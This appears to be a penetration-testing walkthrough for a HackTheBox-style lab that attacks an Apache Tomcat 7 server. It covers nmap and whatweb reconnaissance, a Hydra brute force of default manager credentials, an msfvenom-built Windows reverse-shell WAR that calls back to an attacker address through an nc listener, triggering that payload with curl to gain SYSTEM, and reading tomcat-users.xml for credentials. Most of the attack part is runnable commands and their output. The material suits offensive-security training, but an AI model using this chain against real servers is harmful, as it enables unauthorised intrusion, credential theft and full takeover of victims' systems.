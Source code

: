 # Tomcat Manager

## Recon

Tomcat is running with an HTTP Proxy:

```bash
❯ nmap -p- -n -Pn --min-rate 5000 -oG scans/nmap-tcpfast 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 13:53 EDT
Nmap scan report for 10.10.10.95
Host is up (0.083s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 26.47 seconds
```

Apache Tomcat has been found:

```bash
❯ sudo nmap -sCV -p 8080 -n -Pn -oG scans/nmap-tcpscripts 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 13:56 EDT
Nmap scan report for 10.10.10.95
Host is up (0.078s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.86 seconds
```

## Web Fingerprinting

We can use curl to enumerate the headers:

```bash
❯ curl -I http://10.10.10.95:8080
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Content-Type: text/html;charset=ISO-8859-1
Transfer-Encoding: chunked
Date: Sun, 15 Aug 2021 01:28:24 GMT
```

With _**whatweb**_ we can identify multiple web technologies:

```bash
❯ whatweb -a 3 -v http://10.10.10.95:8080
WhatWeb report for http://10.10.10.95:8080
Status    : 200 OK
Title     : Apache Tomcat/7.0.88
IP        : 10.10.10.95
Country   : RESERVED, ZZ

Summary   : HTML5, Apache, HTTPServer[Apache-Coyote/1.1]

Detected Plugins:
[ Apache ]
        The Apache HTTP Server Project is an effort to develop and
        maintain an open-source HTTP server for modern operating
        systems including UNIX and Windows NT. The goal of this
        project is to provide a secure, efficient and extensible
        server that provides HTTP services in sync with the current
        HTTP standards.

        Google Dorks: (3)
        Website     : http://httpd.apache.org/

[ HTML5 ]
        HTML version 5, detected by the doctype declaration


[ HTTPServer ]
        HTTP server header string. This plugin also attempts to
        identify the operating system from the server header.

        String       : Apache-Coyote/1.1 (from server string)

HTTP Headers:
        HTTP/1.1 200 OK
        Server: Apache-Coyote/1.1
        Content-Type: text/html;charset=ISO-8859-1
        Transfer-Encoding: chunked
        Date: Sun, 15 Aug 2021 01:28:13 GMT
        Connection: close
```

## Tomcat

The tomcat default web page is the following:

![Apache Tomcat](../../.gitbook/assets/apache-tomcat.png)

HTTP Basic Authentication in Tomcat:

![HTTP Basic Authentication](../../.gitbook/assets/tomcat-authentication.png)

The HTTP Authorization header after submitting credentials:

![Authorization Header](../../.gitbook/assets/authorization-header.png)

Base64 Decode the value of the Authorization header:

![Base64 Decode Authorization Header Value](../../.gitbook/assets/base64-decode.png)

**Server Manager** and **Manager App:**

![](../../.gitbook/assets/manager-gui-401.png)

**Host Manager:**

![](../../.gitbook/assets/admin-gui-401.png)

### Tomcat After Failed Authentication

When we visit another manager directory the authorization header is automatically prepended however, the other directory has different credentials so we receive an HTTP 401 unauthorized status code. We have to remove the following header highlighted in red:

![](../../.gitbook/assets/authorization-header-prepend.png)

After removing the Authorization header we will be prompted with HTTP Basic Authentication prompt:

![](../../.gitbook/assets/http-basic-after-remove-authorization-header.png)

### Tomcat Bruteforce

```bash
❯ HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-14 14:20:53
[INFO] Using HTTP Proxy: http://127.0.0.1:8080
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-14 14:20:55
```

```bash
❯ HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 10.10.10.95 http-get /manager/html
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-14 14:28:36
[INFO] Using HTTP Proxy: http://127.0.0.1:8080
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-14 14:28:38
```

### Tomcat Manager App Reverse Shell

![](../../.gitbook/assets/tomcat-manager-app.png)

I’ll use msfvenom to create a windows reverse shell that can be caught with nc:

```text
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.185 LPORT=9002 -f war > rev_shell-9002.war
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of war file: 52237 bytes
```

I’ll also need to know the name of the JSP page to activate it with curl. I’ll use jar to list the contents of the war.

```text
❯ jar -ft rev_shell-9002.war
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
META-INF/
META-INF/MANIFEST.MF
WEB-INF/
WEB-INF/web.xml
qduissimtg.jsp
```

> Note: qduissimtg.jsp is the file that we'll need to execute after we upload the WAR file.

I'll set up a listener with nc:

```text
❯ nc -lvnp 9002
```

Now upload through the manager application:

![WAR File Upload](../../.gitbook/assets/tomcat-upload.png)

Then curl the page at:

```text
❯ curl http://10.10.10.95:8080/rev_shell-9002/qduissimtg.jsp
```

We receive a reverse shell:

```text
❯ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.16.185] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

## Tomcat Credentials

The default tomcat credentials location is the following:

```text
cat /usr/share/tomcat*/conf/tomcat-users.xml
```

